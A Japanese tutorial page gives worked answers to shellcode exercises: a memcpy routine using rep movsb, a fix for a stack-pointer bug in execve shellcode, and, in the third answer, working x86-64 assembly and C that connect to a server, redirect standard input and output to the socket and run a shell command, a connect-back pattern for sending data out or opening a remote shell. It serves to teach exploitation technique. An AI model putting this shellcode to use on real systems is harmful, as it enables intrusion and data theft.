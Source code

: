 ```yaml
---
title: 例題の解答 - シェルコードの書き方
date: 2022-02-06 14:04:00
lang: ja
---
```


## 例題１
【問題】
`rep movsb`命令を使ってmemcpy相当のシェルコードを書いてください。

【解答】
`rep`プレフィックスは後続の命令をrcxが0になるまでrcxをデクリメントしながら実行します。今回は`movsb`(1バイトずつコピー)なので、コピーするデータの長さをそのままrcxに入れましょう。
次に`movs`命令はrsiが指す先のデータをrdiが指す先にコピーします。命令が実行されるとrsi,rdiの値が更新されますが、デクリメントされるかインクリメントされるかはディレクションフラグに依存します。インクリメントさせたい場合はディレクションフラグを0にするため`cld`命令を呼びます。デクリメントさせたい場合は`std`命令を呼びます。今回は`movs`命令が呼ばれる度にポインタをインクリメントしたいので、`cld`を使います。
```
; memcpy(rdi, rsi, rdx);
cld
mov rcx, rdx
rep movsb
```

## 例題２
【問題】
シェルコード領域は書き込み可能だがRSPの初期値が0から始まる状況で、次のようなシェルコードを書いたところ、Segmentation Faultを起こしてしまいました。
```
global _start
section .text
_start:
  xor esp, esp    ; 初期状態RSP=0
  lea rsp, [rel stack]
  xor edx, edx
  push rdx
  lea rdi, [rel s_arg2]
  push rdi
  lea rdi, [rel s_arg1]
  push rdi
  lea rdi, [rel s_arg0]
  push rdi
  mov rsi, rsp
  mov eax, 59
  syscall
  int3
stack: times 1024 dq 0
s_arg0: db "/bin/sh", 0
s_arg1: db "-c", 0
s_arg2: db "/bin/ls -lha", 0
```
原因を特定して直してください。（ヒント：textセクションを書き込み可能にするにはldに`--omagic`オプションを渡す。）

【解答】
このシェルコードではスタックを利用するためにスタックポインタをシェルコード領域に設定しています。
```
lea rsp, [rel stack]
```
スタックは低位アドレスに向かって利用されますが、ラベル`stack`は用意されたスタック領域の先頭を指しています。したがって、以降`push`命令が呼ばれると機械語領域を破壊してしまいます。
5行目を次のように変更すればスタックポインタの位置は正しくなります。
```
lea rsp, [rel stack + 1024]
```
なお、ユーザーランドの場合はこれで問題ないですが、もしカーネル空間でこのような処理をする場合、アラインメントに注意する必要があります。カーネルではスタックポインタが8の倍数でないと例外を引き起こしてしまうため、次のように`align`を利用しましょう。
```
align 8
stack: times 1024 dq 0
```
ファイルの全体は[ここ](src/bug-fixed.S)からダウンロードできます。

## 例題３
【問題】
「ls -lha」した結果を自分のサーバー（例：127.0.0.1:8080）に送信するシェルコードを書いてください。（ヒント：標準入出力をsocketのfdにdupするとpipeを作らなくてもexecveするだけで結果が転送される。） 

【解答】
特殊な構造体が出てくるような複雑なシェルコードを書くのが難しい時はC言語で書いてコンパイルしたものを参考にしましょう。今回のコードは次のようになります。
```c
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int main() {
  struct sockaddr_in sa;
  int sock;

  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr("127.0.0.1");
  sa.sin_port = htons(8080);
  sock = socket(AF_INET, SOCK_STREAM, 0);
  connect(sock, (struct sockaddr*)&sa, sizeof(sa));
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);

  char *args[] = {"/bin/sh", "-c", "/bin/ls -lha", 0};
  execve(args[0], args, NULL);
  return 0;
}
```
`inet_addr`等の変換結果はgdbで確認すれば分かります。（といっても`inet_addr`はIPアドレスを4バイトの値に変換し、`htons`はポート番号のエンディアンを変換するだけです。）
解答例は以下のようになります。
```
global _start
section .text

_start:
  ; socket(AF_INET, SOCK_STREAM, 0)
  xor edx, edx
  mov esi, 1
  mov edi, 2
  mov eax, 41
  syscall
  mov r15d, eax
  ; connect(sock, &sa, sizeof(sa))
  mov edx, 0x10
  lea rsi, [rel sa]
  mov edi, r15d
  mov eax, 42
  syscall
  ; dup2(sock, 0)
  xor esi, esi
  mov edi, r15d
  mov eax, 33
  syscall
  ; dup2(sock, 1)
  mov esi, 1
  mov edi, r15d
  mov eax, 33
  syscall
  ; dup2(sock, 2)
  mov esi, 2
  mov edi, r15d
  mov eax, 33
  syscall
  ; execve(args[0], args, NULL)
  xor edx, edx
  push rdx
  lea rdi, [rel s_arg2]
  push rdi
  lea rdi, [rel s_arg1]
  push rdi
  lea rdi, [rel s_arg0]
  push rdi
  mov rsi, rsp
  mov eax, 59
  syscall
  int3

s_arg0:
  db "/bin/sh", 0
s_arg1:
  db "-c", 0
s_arg2:
  db "/bin/ls -lha", 0

sa:
  dw 2                          ; sin_family=AF_INET
  dw 0x901f                     ; sin_port=8080
  dd 0x0100007f                 ; sin_addr.s_addr=<127.0.0.1>
  dq 0
```
ファイルの全体は[ここ](src/revls.S)からダウンロードできます。
